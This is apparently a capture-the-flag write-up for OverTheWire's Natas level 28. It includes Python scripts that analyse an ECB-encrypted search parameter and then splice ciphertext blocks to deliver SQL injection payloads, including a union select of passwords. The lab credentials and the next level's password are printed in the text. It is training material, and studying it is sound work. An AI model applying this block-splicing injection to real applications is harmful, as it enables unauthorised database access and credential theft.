






# Level 27 → Level 28

## Details
Username: `natas28`<br />
Password: `skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`<br />
URL:      http://natas28.natas.labs.overthewire.org

## Solution
Wow that took a long time out of my life...<br />
Let's start:





Well, there is a case of HTTP redirect here. Let's see it in Wireshark:


I tried playing a bit with the **query** parameter...


I looked into what [PKCS#7 padding](https://medium.com/asecuritysite-when-bob-met-alice/so-what-is-pkcs-7-daf8f4423fd1) is... but didn't have much to do with it at the moment.

So, I decided to look deeper into the strange parameter sent by the site itself. It was very easy to understand that it was base64, so I created a program that prints the original bytes that are sent to the query for many inputs:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    print(bytes.hex(b64decode(unquote(new_location))))
```


that's very weird. Everything is the same except for a 16-byte part in the middle.
Let's print again separating into groups of 16 bytes:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(c + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```


A number of things can be concluded from looking at the output.
* Each row can be divided into 3 parts in this order:
    * Fixed part<br />
    `1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2`
    * Variable part (probably depends on input from the user)
    * A part that in most cases looks the same except for the characters `"`, `#`, `&`, `'`, `\`, `\n`, `\r`

* It seems that the input from the user has been padded to 16 bytes, and encrypted.

I decided to try another approach, which is to see what happens when the input size changes. How does it affect?

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for i in range(32):
    res = get(url=URL.format('*'*i), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(str(i).zfill(2) + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```


And from this I deduced the following:
* The third part of the line actually depends on the second part. (Here it is expressed because of the size of the input).
* It is possible that what actually happens is a combination of the input from the user within an existing string (for example an sql query), padding and encryption.
* We have no control over the first part.
* The characters `&` and `#` are removed from the input
* The characters `\`, `\r`, `\n`, `"`, `'` increase the input by one character.

Therefore, the order of operations on the server is as follows:
1. The input comes from the user
2. The characters `&` and `#` are removed from it
3. The input goes through the `mysqli_real_escape_string` function
4. The input is integrated into a sql query and padded to a 16-byte division (probably with PKCS#7 padding)
5. The query undergoes some kind of block encryption, base64 and is sent as a parameter to the redirect.<br />
It also makes sense because of the parameter name, **"quary"**.

Can we generate a `select * from users where username='natas29'` style query ourselves and send? No. Because we don't know the encryption and its key...

So what can we do? After all, we will not be able to do sql injection due to the protection.<br />
is that so?<br />
Why can't we separate blocks between the protection of the `mysqli_real_escape_string` function (adding a slash `\`) and the special character?<br />
Ummm..<br />
Can we produce a hacked block and assemble a hacked query with it? Let's check it out!
We know that in each query up to 3 answers are displayed. We will try to get more answers as a start.

Note:
From an trial & error about the size of the input, it turns out that the original sql quary looks like this:<br />
`################ ################ ######<user input>########## ################ ####----------------`<br />
* First 6 characters in the block of the input I concluded that if you enter 10 characters and see result, then 11 characters and see result, you immediately see that **the block is the same** the second time. And if the size is 16, then before the input there were 6. <br />
* If the input to the quary is of size 0, then the fifth (and last) block has 4 bytes and then padding. This is true because when the input is size 12 there are still 5 blocks, and if the input is size 13 there are already 6 blocks.

Therefore, you have to be careful about the 6 bytes that go into the user's block, and you also have to be aware of the fact that each added character moves all the ones that come in line.

Back to our experiment:
1. We would like to inject a block that begins with the character `'` (that is, the last character in the previous block is `\`)
2. It is forbidden to omit the 6 bytes pushed to the user's block.

and hence:<br />
The input `*********' or 1=1-- -` will give us:<br />


The input `**********` will give us: <br />


Let's put them together and see what we got:

```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "7ec495538e8b79cb720f5dd46fc8a81c 41c098c4bacdc5ed9357564e5105dd7e 64d0dcc868253692adfcbd3796d1bf8a"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12fsSVU46LectyD13Ub8ioHEHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
```



It worked!!<br />
Can we get the password now?<br />
The input `*********' union select password from users-- -` will give us:<br />


We will now build the url exactly as before:
```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "f89dd8dbec15c6a6d9993a3dc7b7a308 86951754f7ad56454eb5d5b6768ee646 27d788aa2b09337e8d4bcc1e820f6370 a77e8ed1aabe0b5d05c4ffe6ac1423ab 478eb1a1fe261a2c6c15061109b3feda"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12%2BJ3Y2%2BwVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kYn14iqKwkzfo1LzB6CD2Nwp36O0aq%2BC10FxP/mrBQjq0eOsaH%2BJhosbBUGEQmz/to%3D
```



That is, we collected 0 jokes from their table, and guessed correctly that the table relevant to the solution is called "users". It turns out that there is only one user in *users*, natas29.<br />
That's the password!!!<br />
Have a wonderful day!

## Password for the next level:
```
pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno
```
